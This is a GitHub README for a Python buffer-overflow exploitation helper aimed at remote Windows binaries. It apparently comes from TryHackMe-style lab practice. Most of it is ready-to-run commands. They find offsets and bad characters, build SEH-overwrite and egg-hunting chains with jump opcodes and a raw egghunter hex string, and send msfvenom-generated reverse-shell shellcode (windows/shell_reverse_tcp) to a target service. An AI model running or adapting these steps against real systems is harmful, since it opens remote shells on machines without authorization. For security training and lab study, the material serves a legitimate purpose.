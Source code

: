 # ig-buffer-overflow.py
* Help functions for exploting buffer overflow vulnerabilities in a Windows remote binary. 
* Tested with: Vanilla Buffer Overflow, Structured Exception Handling Overwrite (SEH Overwrite), Egg Hunting.
* [ig-buffer-overflow.py](https://github.com/isabellecda/cyber-scripts/blob/main/buffer-overflow/ig-buffer-overflow.py)

## Usage

test - Sends simple string (AAAAA) with buffer size and buffer head for memory test
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

cyclic - Sends cyclic pattern to help identify memory positions
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/'
```

checkoffset - Auxiliary mode for offset detection on pattern
```
./ig-buffer-overflow.py -m checkoffset --value=31704331 --length=5000
```

write - Writes hex value to buffer offset
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809
```

write - Writes hex value to buffer offset and additional content before and/or after the offset content
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --before=90909090 --after=9090
```

write - Writes badchars (before or after offset content) for badchar verification
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --after=badchar --exclude=000a
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --before=badchar --exclude=000a
```

write - Sends malicious shell code (hex string file) via buffer overflow
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --before=shellcode --shellcode=opencalc --nops=10
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4096 --buffhead='cmd2 /.:/' --offset=1203 --hexcontent=0A62F809 --after=shellcode --shellcode=opencalc
```

## Parameters:
* --help|-h	: Show script usage.
* --norec|-n	: Don't wait for receive message after connect.
* --mode|-m	: Select script mode (test|cyclic|write|checkoffset).
* --rhost		: Remote host IP.
* --rport		: Remote host port.
* --buffsize	: Amount of variable bytes to send.
* --buffhead	: Static buffer string set at the beginning of the buffer.
  * Is usually the crash string. Size is considered in buffSize calc.
* --interact	: Interact with the application before sending the payload. For each message in string (separated with ';;'), sends and receives response from app.
  * Example: --interact='login;;user' --> Sends 'login', gets response, sends 'user', gets response, and finally sends the generated payload
* --offset	: Place in buffer where content can be added.
* --hexcontent	: Hex string to add at the offset position.
  * Can be considered as big endian (default) or little endian (will be reversed).
  * Use 'g' or 'l' to delimit the order. Examples:
    * 'g01020304l05060708' --> will send '0102030408070605'
    * '01020304' --> will send '01020304'
* --before|after	: Writes additional content (hex string) before and/or after the offset content.
  * If content is 'badchar', content will be a generated badchar list. Used for bad char testing.
  * If content is 'shellcode', --shellcode parameter will be expected.
  * Other content will be considered as big endian (default) or little endian (will be reversed). Same as --hexcontent.
* --exclude	: List of chars (formatted as hex string) to be excluded from badchar list.
* --shellcode	: Hex shell code file generated using msfvenom. 
  * Example: msfvenom -p windows/exec cmd=calc.exe -b '\x00' -f hex EXITFUNC=thread -o opencalc
* --nopsb|nopsa	: Amount of nops to add before and/or after the additional write content (be if badchars, shellcode or simple hexstring). Default is 0.
* --value		: Offset value.
* --length	: Cyclic pattern length.
* --flush		: Adds '\\r\\n' at the end of the payload.


## Vanilla Buffer Overflow example

[TryHackMe - Brainstorm - Write-up](https://github.com/isabellecda/writeups/tree/main/TryHackMe/Brainstorm)

## SEH Overwrite example

1. Overwrite SEH chain
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../'
```

2. Identify SEH offset
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../'
```

3. Small jump (90EB0890) to tail content
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../' --offset=3290 --hexcontent=g90EB0890l62501301
```

4. Long jump (E9DBFCFFFF) to head content
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../' --offset=3290 --hexcontent=g90EB0890l62501301 --after=gE9DBFCFFFF --nopsa=4
```

5. Bad char testing
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=5048 --buffsize=4096 --buffhead='cmd2 /.../' --offset=3391 --hexcontent=g90EB0890l62501301 --after=gE9DBFCFFFF --nopsa=4 --before=badchar --nopsb=4 --exclude=00 -v
```

6. Exploit
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.2.31.1 LPORT=1313 -f hex EXITFUNC=thread -o reverse

./ig-buffer-overflow.py -m write --rhost=10.2.31.155 --rport=2050 --buffsize=4085 --buffhead='cmd2 /.../' --offset=3290 --hexcontent=g90EB0890l62501301 --after=gE9DBFCFFFF --nopsa=4 --before=shellcode --shellcode=reverse --nopsb=20 -v
```

## Egg Hunting example

1. Overwrite EIP
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.155 --rport=2048 --buffsize=1000 --buffhead='cmd1 /.:/'
```

2. Identify EIP offset
```
./ig-buffer-overflow.py -m cyclic --rhost=10.2.31.155 --rport=2048 --buffsize=1000 --buffhead='cmd1 /.:/'
```

3. Identify command to write to memory
```
./ig-buffer-overflow.py -m test --rhost=10.2.31.146 --rport=2050 --buffsize=1000 --buffhead='cmd2 OVNI'
```

4. Bad char testing
```
./ig-buffer-overflow.py -m write --rhost=10.2.31.146 --rport=2050 --buffsize=2000 --buffhead='cmd2 OVNI' --offset=1 --hexcontent=90 --after=badchar --exclude=00 --nopsa=2 -v
```

5. Write exploit with egg
```
msfvenom -p windows/shell_reverse_tcp -b "\x00" LHOST=10.2.31.1 LPORT=1313 -f hex EXITFUNC=thread -o reverse

./ig-buffer-overflow.py -m write --rhost=10.2.31.146 --rport=2050 --buffsize=2000 --buffhead='cmd2 OVNIOVNI' --offset=1 --hexcontent=90 --after=shellcode --shellcode=reverse --nopsa=20 -v
```

6. Generate egg hunter and send
```
msf-egghunter -f hex -e OVNI -v egg

./ig-buffer-overflow.py -m write --rhost=10.2.31.146 --rport=2050 --buffsize=144 --buffhead='cmd1 /.:/' --offset=48 --hexcontent=l6250130A --after=6681caff0f42526a0258cd2e3c055a74efb84f564e4989d7af75eaaf75e7ffe7 --nopsa=2 -v
```
